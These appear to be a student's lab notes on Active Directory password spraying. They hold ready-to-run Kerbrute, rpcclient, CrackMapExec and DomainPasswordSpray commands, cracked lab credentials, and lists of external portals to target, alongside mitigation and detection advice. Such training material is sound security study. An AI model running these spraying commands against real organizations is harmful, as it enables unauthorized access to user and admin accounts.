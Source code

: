 
1. We first need a valid list of users
	1. How?
	  - Leverage an SMB Null session
	  - Utilize LDAP anonymous bind
	  - User [[Kerbrute]] with a userlist

#### Use Kerbrute to get a list of valid users:
`sudo kerbrute userenum -d INLANEFREIGHT.LOCAL --dc 172.16.5.5 jsmith.txt -o valid_users.txt
`

==You must keep a log of what you are doing==
Why? -> What if a malicious actor is in the network when you are as well? How would your client know?


## Internal Password Spraying with Linux:
1. Now that we have a valid list of usernames, we can attempt to spray passwords.

```
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```

##### Kerbrute:
```
# Spray the password: Welcome1 to all the users in 'valid_users.txt'

kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1
```
==Creds:== sgage:Welcome1[^1]
avazquez:Password123

> [!NOTE] Internal Spray with CrackMapExec
> ```shell-session
> # Use grep to show only successful sprays
sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep + 


^ ^ Validate credentials with CME:
sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123


### Test for password reuse!
1. If you gather admin credentials, try them in as many other places as possible in the domain
2. If a user has a standard account and an admin account, try the creds on the admin account as well.


## Internal Password spraying - From Windows:
==Connect==: `xfreerdp3 /v:<MS01 target IP> /u:htb-student /p:Academy_student_AD!`

COMMANDS:
```powershell-session
PS C:\htb> Import-Module .\DomainPasswordSpray.ps1
PS C:\htb> Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
```

![[Pasted image 20250601151800.png]]

dbranch:Winter2022
### Mitigation of password spraying:
1. **MFA**: But the credentials can perhaps be used somewhere where MFA is not required
2. **Restricting Access**: Users should only have access to applications that they need to access.
3. **Reduce impact of successful exploitation**: Network segmentation, privileged users having separate accounts, Application specific permission levels
4. **Password Hygiene**: Educate users! Adopt a password phrase paradigm, have a dictionary that blocks the use of weak phrases (like "welcome!")

### Detection of password spraying:
1. Many account lockouts in a short period of time
2. Lots of event IDs of 4625 (An account failed to log on) ==for smb password spraying==
3. Lots of event IDs of 4771 (Kerberos pre-authentication failed) ==for LDAP password spraying
4. Enable logging

### External password spraying:
-> This can also be done with public facing applications including:

1. Microsoft 0365
2. Outlook Web Exchange
3. Exchange Web Access
4. Skype for Business
5. Lync Server
6. Microsoft Remote Desktop Services (RDS) Portals
7. Citrix portals using AD authentication
8. VDI implementations using AD authentication such as VMware Horizon
9. VPN portals (Citrix, SonicWall, OpenVPN, Fortinet, etc. that use AD authentication)
10.  Custom web applications that use AD authentication